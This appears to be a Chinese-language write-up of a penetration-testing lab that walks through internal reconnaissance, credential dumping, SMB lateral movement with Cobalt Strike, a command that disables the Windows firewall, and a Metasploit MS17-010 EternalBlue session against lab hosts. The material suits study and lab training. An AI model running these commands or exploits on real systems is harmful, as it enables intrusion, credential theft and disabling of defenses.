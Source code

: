 利用powershell码成功上线CS

### 内网信息收集

PC1有两个ip

192.168.52.30

192.168.93.20

```
arp -a 扫描内网
```

![pc1-arp-a](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/pc1-arp-a.png)

能看到93网关还有两台主机，分别是30和40

抓取明文密码

![dc-pass](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/dc-pass.png)

能够抓到域控主机和pc2的密码

通过扫描93网段的主机，将目标机器添加到目标列表中

## 三级网络渗透

### CS做法

通过抓取到的密码与PC2主机建立SMB连接

![pc2-smc-pc1](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/pc2-smc-pc1.png)

上线后先关闭防火墙

```
netsh advfirewall set allprofiles state off
```

利用PC2做跳板机来和DC做SMB搭建，成功上线DC

![DC](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/sunrise7/DC.png)

### MS17_010拿PC2

```
msf6 exploit(windows/smb/psexec) > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.93.40
rhosts => 192.168.93.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.93.40
rhost => 192.168.93.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 4444
lport => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
